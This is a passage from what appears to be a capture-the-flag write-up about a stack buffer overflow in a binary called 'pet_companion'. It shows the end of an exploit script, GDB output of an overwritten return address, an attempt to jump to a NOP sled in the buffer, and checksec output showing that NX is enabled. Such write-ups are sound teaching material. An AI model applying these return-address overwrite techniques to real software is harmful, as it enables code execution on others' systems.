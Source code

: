 ```python
    run_bin_local(LOCAL_FILE_PATH)
    #run_remote()

if __name__ == '__main__':
    main()
```

On GDB, running `r < input.txt`, we can see this output:
```
 0x4006df <main+149>    ret    
    ↓
 ► 0x40064a <main>        push   rbp
   0x40064b <main+1>      mov    rbp, rsp
```
The return value has been overwritten, and now jumps to the beginning of the main function.

We now want to replace that address with the beginning of our buffer address, in order to execute the payload we will store in it later.

This image explains nicely how the stack works, and how to write the payload.

![[Pasted image 20240313114443.png]]

I tried to put the buffer address i found:

```
0x4006df       <main+149>    ret    
    ↓
 ► 0x7fffffffdc90               xchg   r8d, eax
```

Quite a weird instruction, maybe it is my `A`s turned into instructions.  
I'm going to put nops inside my buffer, so that will be clearer.

```
0x4006df       <main+149>    ret    <0x7fffffffdc90>
    ↓
   0x7fffffffdc90               nop    
   0x7fffffffdc91               nop    
   0x7fffffffdc92               nop    
   0x7fffffffdc93               nop    
   0x7fffffffdc94               nop
```


Okay, that contains nop ! It works !
Or maybe not ! >.>
When using `ni`,  my program SEGFAULTs...

And i know why !
Remember before ?
```bash
checksec --file=pet_companion 

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified   Fortifiable     FILE
Full RELRO      No canary found   NX enabled    No PIE         No RPATH   RW-RUNPATH   65 Symbols        No    0  1
pet_companion

```
